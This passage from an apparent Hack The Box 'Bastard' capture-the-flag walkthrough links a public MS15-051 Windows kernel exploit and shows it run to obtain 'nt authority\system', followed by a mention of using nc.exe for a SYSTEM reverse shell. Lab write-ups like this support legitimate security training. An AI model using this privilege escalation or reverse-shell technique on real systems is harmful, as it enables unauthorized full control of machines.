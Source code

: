 > [https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS15-051](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS15-051)

This one works perfectly

```bash
C:\Temp>.\ms15-051x64.exe "whoami"
.\ms15-051x64.exe "whoami"
[#] ms15-051 fixed by zcgonvh
[!] process with pid: 2472 created.
==============================
nt authority\system
```

I used the nc.exe and I got another reverse shell as system.

![Untitled](/img/htb-bastard/Untitled%207.png)

We own the Box!